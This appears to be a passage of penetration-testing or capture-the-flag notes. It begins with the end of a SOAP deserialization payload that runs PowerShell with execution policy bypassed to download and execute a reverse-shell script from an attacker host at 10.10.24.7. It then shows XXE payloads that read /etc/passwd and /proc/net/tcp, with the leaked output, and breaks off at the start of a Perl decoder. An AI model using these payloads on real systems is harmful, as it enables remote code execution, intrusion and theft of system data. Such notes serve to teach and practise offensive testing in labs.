 ```bash
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c &#34;powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.24.7:8888/revs.ps1')"&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```
After sending the request the shell will be downloaded and executed and we will receive it on the nc listener.
# Server Side Attacks
## SSRF to RCE
After a port scan we find a form on port 5000 which accepts an XML to validate. This XML is vulnerable to XXE and thus we can try to exploit further with, for instance:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<parent>
    <child>
        <name>Test Name</name>
        <description>&file;</description>
    </child>
</parent>
```
This works and we can get various usernames: amanda, daviv, jeremy.
We can go further, and see if we can talk to other unexposed services by querying the /proc/net/tcp file which contains info about network connections:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY file SYSTEM "file:///proc/net/tcp"> ]>
<parent>
    <child>
        <name>Test Name</name>
        <description>&file;</description>
    </child>
</parent>
```
And we extract this:
```bash
sl local_address rem_address st tx_queue rx_queue tr tm-&gt;when retrnsmt uid timeout inode 
0: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 982883264 1 0000000000000000 100 0 0 10 0 
1: 0100007F:22B8 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 982867365 1 0000000000000000 100 0 0 10 0 
2: 0B00007F:939F 00000000:0000 0A 00000000:00000000 00:00000000 00000000 65534 0 982885594 1 0000000000000000 100 0 0 10 0 
3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 982890903 1 0000000000000000 100 0 0 10 0 
4: 03D723C0:1F40 02D723C0:D3A0 01 00000000:00000000 00:00000000 00000000 0 0 982885969 1 0000000000000000 20 4 30 10 -1 
5: 03D723C0:1F40 02D723C0:D394 06 00000000:00000000 03:0000176F 00000000 0 0 0 3 0000000000000000 
```
We need to decode the bytes to get the IP addresses, there are plenty of ways such as this perl script:
```perl
#!/usr/bin/perl
my $hexip=$ARGV[0];
my $hexport=$ARGV[1];
```